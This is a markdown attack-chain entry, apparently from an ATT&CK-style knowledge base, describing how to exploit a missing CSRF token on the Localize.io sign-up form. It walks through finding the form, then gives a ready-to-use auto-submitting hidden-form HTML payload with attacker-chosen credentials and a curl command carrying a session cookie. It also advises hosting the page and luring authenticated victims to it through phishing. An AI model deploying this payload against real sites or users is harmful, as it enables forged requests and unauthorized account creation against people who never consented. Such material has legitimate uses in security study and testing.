

---
tags:
  - csrf
  - web-vulnerability
  - account-creation
  - localize-io
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Vulnerable-Sign-Up-Form-Endpoint]]'
  - '[[procedures/Assess-and-Exploit-CSRF-Vulnerability-in-Sign-Up-Form]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:30.150Z'
description: >-
  A multi-stage attack chain exploiting a CSRF vulnerability in the Localize.io
  sign-up form to force authenticated users to create accounts with
  attacker-controlled credentials, potentially compromising user data or
  administrative access.
skill_level: beginner
impact_level: high
id: b539496c-7cd5-4861-a30e-26b341010f2e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Exploitation in Localize.io Sign-Up Form for Unauthorized Account Creation

Multi-stage attack chain demonstrating a complete attack workflow targeting the CSRF-vulnerable sign-up form on Localize.io.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser Developer Tools (e.g., Chrome DevTools)
- Text editor for crafting PoC HTML

### Target Environment

- Web platform
- Access to http://www.localize.io/pages/sign_up
- No specific ports or services required beyond standard HTTP/HTTPS

### Initial Access Requirements

- Attacker must lure a victim to a malicious page (e.g., via phishing or drive-by)
- Victim must be authenticated to Localize.io (or have an active session)
- Network access to the target site

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Sign-Up Form Endpoint
procedure: [[procedures/Identify-Vulnerable-Sign-Up-Form-Endpoint]]

**Objective**: Locate the sign-up form endpoint and inspect its structure to identify potential CSRF exposure.

**Instructions**: Open the target site in a browser and use developer tools to inspect the form. Look for the action URL, method, and input fields.

Navigate to http://www.localize.io/pages/sign_up and right-click the form to "Inspect Element". Note the POST method and fields like sign_up[type][Radio], sign_up[username][Text], sign_up[password1][Password], sign_up[password2][Password].

**Expected Output**: Form details confirming POST to http://www.localize.io/pages/sign_up without visible CSRF tokens.

**Success Indicators**:
- Form endpoint identified
- No CSRF token input field present

### Step 2: Assess and Exploit CSRF Vulnerability in Sign-Up Form
procedure: [[procedures/Assess-and-Exploit-CSRF-Vulnerability-in-Sign-Up-Form]]

**Objective**: Confirm the absence of CSRF protection and craft a proof-of-concept to force unauthorized account creation.

**Instructions**: Create a malicious HTML page with a hidden form that submits to the target endpoint. Host it on an attacker-controlled server and trick the victim into visiting it while authenticated to Localize.io.

Use a text editor to craft the PoC:

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://www.localize.io/pages/sign_up" method="POST" id="csrf-poc">
  <input type="hidden" name="sign_up[type]" value="RadioValue">
  <input type="hidden" name="sign_up[username]" value="attacker controlled username">
  <input type="hidden" name="sign_up[password1]" value="attacker password">
  <input type="hidden" name="sign_up[password2]" value="attacker password">
</form>
<script>document.getElementById('csrf-poc').submit();</script>
</body>
</html>
```

Host this HTML (e.g., on GitHub Pages or local server) and send the link to the victim. When loaded, it auto-submits the form using the victim's session.

To assess without exploitation, attempt a test submission using browser console or curl (if session cookie available):

```bash
curl -X POST http://www.localize.io/pages/sign_up \
  -d "sign_up[type]=Test&sign_up[username]=testuser&sign_up[password1]=pass&sign_up[password2]=pass" \
  -b "session_cookie=your_session_here"
```

**Expected Output**: Successful account creation without user interaction, or server response indicating submission acceptance.

**Success Indicators**:
- Form submits without CSRF token
- New account created in victim's session context
- No errors related to missing tokens

## Attack Chain Summary

### Key Achievements

1. Identified CSRF-vulnerable endpoint on Localize.io sign-up form
2. Confirmed lack of protection allowing unauthorized POST requests
3. Demonstrated potential for account creation with attacker-chosen credentials, risking data compromise or admin takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
